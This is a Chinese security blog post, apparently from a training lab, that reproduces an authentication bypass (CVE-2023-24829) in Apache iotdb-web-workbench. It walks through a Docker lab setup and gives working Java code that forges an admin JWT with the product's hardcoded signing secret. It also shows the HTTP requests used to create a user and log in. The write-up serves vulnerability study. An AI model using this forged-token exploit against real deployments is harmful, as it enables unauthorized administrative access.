










# Apache iotdb-web-workbench 认证绕过漏洞（CVE-2023-24829） - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17266402.html`](https://www.cnblogs.com/hetianlab/p/17266402.html)

## 漏洞简介

　　​​

　　影响版本 0.13.0 <= 漏洞版本 < 0.13.3

　　漏洞主要来自于 `iotdb-web-workbench`​ IoTDB-Workbench 是 IoTDB 的可视化管理工具，可对 IoTDB 的数据进行增删改查、权限控制等，简化 IoTDB 的使用及学习成本。`iotdb-web-workbench`​ 中存在不正确的身份验证漏洞。

## 环境搭建

　　我们发现在 Releases 中已经删除到只剩最新版本，所以我们从 commits 中查找历史提交记录来搭建环境。

　　​​

　　​​

　　下载下历史版本的源码，下载之后利用 docker 搭建环境。

　　需要修改一下 `docker-compose.yml`​ 将其中挂载数据库文件修改为：

```
volumes:
      - ./backend/src/main/resources/sqlite/iotdb.db:/sqlite/iotdb.db  
```

　　直接在根目录下执行 `docker-compose up -d`​ 虽然镜像编译成功，但是执行后一直启动不成功，通过 `docker logs`​ 查看日志信息。

　　​​

　　发现后台的 jar 包没有编译成功拷贝到容器内，所以先进入 `backend`​ 执行 `mvn package`​ 编译 jar 。 默认情况下都是依赖于 `aliyunmaven`​ 但是很奇怪这次编译时会提示无法从 `aliyun`​ 中下载文件，所以将 maven 的 settings.xml 配置文件关于 aliyun 的相关依赖注释掉，就可以编译成功。

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

　　编译成功之后，再次执行发现了问题仍然存在，还是相同的错误类型。后来无论怎么修改 backend 目录下对应的 Dockerfile 文件，仍然无法成功。最后发现是因为没有修改根目录中的 `docker-compose.yml`​，下载的仍然是有问题的镜像，没有去调用编译本地的镜像。

　　​​

　　进到 `backend`​ 目录下 修改 Dockerfile 文件 删除掉 `"${JAVA_MEM_OPTS}"`

　　执行 `docker build -t test:v1 .`​ 编译镜像。

　　​​

　　编译之后，将 `docker-compose.yml`​ 中的 `apache/iotdb-web-workbench:0.13.0-backend`​ 替换为 `test:v1`​

　　再执行 `docker-compose up -d`​

　　​

　　访问 `[`127.0.0.1:8081/#/login`](http://127.0.0.1:8081/#/login)`​

　　​

　　环境如此就搭建好了，但是在实际中利用的话，还是建议不要使用 docker ，而是单独编译前端后端。

## 漏洞复现

　　构造数据包请求保存用户时

　　​​

　　提示没有登录。

　　创建一个 java 项目：

```
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
​
import java.util.Date;
​
public class iotdb_CreateToken {
​
    private static String secret =
            "HSyJ0eXAiOiJKV1QasdfffffffSd3g8923402347523fffasdfasgwaegwaegawegawegawegawetwgewagagew"
                    + "asdf23r23DEEasdfawef134t2fawt2g325gafasdfasdfiLCJhbGciOiJIUzI1NiJ9";
    public static String generateToken(String username) {
        Date now = new Date();
        //    Calendar instance = Calendar.getInstance();
        //    instance.add(Calendar.HOUR_OF_DAY, 24);
        Date expireDate = new Date(new Date().getTime() + (1000 * 60 * 60 * 10));
        return Jwts.builder()
                .setHeaderParam("type", "JWT")
                .setSubject(0 + "")
                .setIssuedAt(now) // 签发时间
                .claim("userId", 1)
                .claim("name", username)
                .setExpiration(expireDate) // 过期时间
                .signWith(SignatureAlgorithm.HS512, secret)
                .compact();
    }
​
    public static void main(String[] args) {
        String token = generateToken("admin");
        System.out.println(token);
    }
}
​
```

　　​​

　　将生成的 Token 加入到之前的数据包中。

　　​​

　　创建用户成功，尝试登录。

```
POST /api/login?name=test&password=123456 HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 4
​
{
}
```

　　​​

　　登录成功。

## 漏洞分析

　　​`org.apache.iotdb.admin.filter.TokenFilter#preHandle`​

　　​

　　在 `TokenFilter`​ 中 `JJwtTool.getClaimsByToken(authorization);`​ 从请求头中获取 token 并解析匹配

　　​`org.apache.iotdb.admin.controller.UserController#login`​

　　​

　　我们发现 token 的来源是因为登录成功后会根据用户来生成 token `JJwtTool.generateToken(user) ​`​

　　​`org.apache.iotdb.admin.tool.JJwtTool#generateToken`​

　　​​

　　生成 Token 的相关参数均是可控的，所以我们可以自己构造。

**更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)**